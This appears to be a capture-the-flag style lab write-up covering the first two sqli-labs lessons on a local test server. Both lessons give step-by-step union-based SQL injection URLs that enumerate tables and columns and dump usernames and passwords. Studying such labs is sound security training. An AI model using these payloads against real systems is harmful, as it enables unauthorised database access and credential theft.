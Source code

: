 # Web Exploitation

## SQLI Lab Challenges

### Lesson 1

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/4.jpeg?raw=true)

- We can see that its asking us to **Input the **ID as parameter with Numeric value**.
- Now injecting it with **?id=x** we will get different **Username** and **Password** where **x** is any positive number.

```
http://localhost/sqli-labs-php7/Less-1/?id=1
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/5.jpeg?raw=true)

- Now if we inject with **?id='** the query will be breaked and we will get an error.

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/6.jpeg?raw=true)

```
http://localhost/sqli-labs-php7/Less-1/?id=1%27
```

- The error is '''' LIMIT 0,1' Here we can remove the first and last ' since they indicates the error statement. 
- Now it becomes ''' LIMIT 0,1 the input we give will go between ''. Hence, we need to dump the data with a single quoted query.

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' LIMIT 0,1' at line 1
```

- The error is '''' LIMIT 0,1' Here we can remove the first and last ' since they indicates the error statement. 
- Now it becomes ''' LIMIT 0,1 the input we give will go between ''. 
- So remove the **' '** from the query.
- Finally  we are left with single Query.
- Hence, we need to dump the data with a single quoted query.
- If we give **?id=1'** we cant dump the data because the statement becomes **True**. 
- So we need to give a false value and union it with the right query dump the statement. 
- Giving negative value makes the value **False**.

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1-- -
```

- Next step is to find **Number of Columns**.
- To do that try with different values untill we get a correct one.

```
The used SELECT statements have a different number of columns 
```

- It means that the number of columns which we assumed is not correct. 
- Now if we try with 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2,3-- - 
```

we will get Login name:2 Your Password:3 signifying that the required number of attributes is correct.


![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/1.jpeg?raw=true)

- We shall find what database has all the data of usernames and passwords.
- We shall give the query as ?id=-1’ union select 1,database(),version()-- -

```
http://localhost/sqli-labs-php7/Less-1/?id=-1%27%20union%20select%201,database(),version()%20--%20
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/2.jpeg?raw=true)

- Now we need to figure out table, column to dump usernames and passwords.
- In the database we can find that TABLES contain all the data. 
- TABLES contains attribute TABLE_SCHEMA that have database names and TABLE_NAME have names of all tables.
- Now if we give 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2,group_concat(TABLE_NAME) FROM information_schema.TABLES where TABLE_SCHEMA = database()-- - 
```
we shall get all the tables in the database.

- We need to find the names of attributes now. 
- We can do that using 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2,group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'users'-- - 
```
we will get id,username,password.

- Now we need to find the database in which the data usernames and password lies. 
- We can get that using 

```
http://localhost/sqli-labs-php7/Less-1/?id=-1' union select 1,2, database ()-- -.
```
- We will get security as the result for database(). 
- **database()** is a function in mysql that returns the current database. 

```
--> The Final Query that Dumps the Database is,

http://localhost/sqli-labs-php7/Less-1/?id=-1%27union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--%20-
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/3.jpeg?raw=true)

### Lesson 2

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/7.jpeg?raw=true)

- We can see that its asking us to **Input the **ID as parameter with Numeric value**.
- Now injecting it with **?id=x** we will get different **Username** and **Password** where **x** is any positive number.

```
http://localhost/sqli-labs-php7/Less-2/?id=1
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/8.jpeg?raw=true)

- Now if we inject with **?id='** the query will be breaked and we will get an error.

```
http://localhost/sqli-labs-php7/Less-2/?id=
```

- The error is '' LIMIT 0,1' Here we can remove the first and last ' since they indicates the error statement. 
- Now it becomes ' LIMIT 0,1 the input we give will go between ''. Hence, we need to dump the data with a without a query

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'LIMIT 0,1' at line 1
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/9.jpeg?raw=true)

- The error is **'LIMIT 0,1'** Here we can remove the first and last ' since they indicates the error statement. 
- So we are left with LIMIT 0,1
- Its a integer based error dumping.
- If we give **?id=1** we cant dump the data because the statement becomes **True**. 
- So we need to give a false value and union it with the right query dump the statement. 
- Giving negative value makes the value **False**.

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1-- -
```

- Next step is to find **Number of Columns**.
- To do that try with different values untill we get a correct one.

```
The used SELECT statements have a different number of columns 
```

- It means that the number of columns which we assumed is not correct. 
- Now if we try with 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2,3-- - 
```

we will get Login name:2 Your Password:3 signifying that the required number of attributes is correct.

- We shall find what database has all the data of usernames and passwords.
- We shall give the query as ?id=-1’ union select 1,database(),version()-- -

```
http://localhost/sqli-labs-php7/Less-2/?id=-1%20union%20select%201,database(),version()%20--%20
```

- Now we need to figure out table, column to dump usernames and passwords.
- In the database we can find that TABLES contain all the data. 
- TABLES contains attribute TABLE_SCHEMA that have database names and TABLE_NAME have names of all tables.
- Now if we give 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2,group_concat(TABLE_NAME) FROM information_schema.TABLES where TABLE_SCHEMA = database()-- - 
```
we shall get all the tables in the database.

- We need to find the names of attributes now. 
- We can do that using 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2,group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'users'-- - 
```
we will get id,username,password.

- Now we need to find the database in which the data usernames and password lies. 
- We can get that using 

```
http://localhost/sqli-labs-php7/Less-2/?id=-1 union select 1,2, database ()-- -.
```
- We will get security as the result for database(). 
- **database()** is a function in mysql that returns the current database. 

```
--> The Final Query that Dumps the Database is,

http://localhost/sqli-labs-php7/Less-2/?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--%20-
```

![](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/10.jpeg?raw=true)



#### References --> https://github.com/skyblueee/sqli-labs-php7/
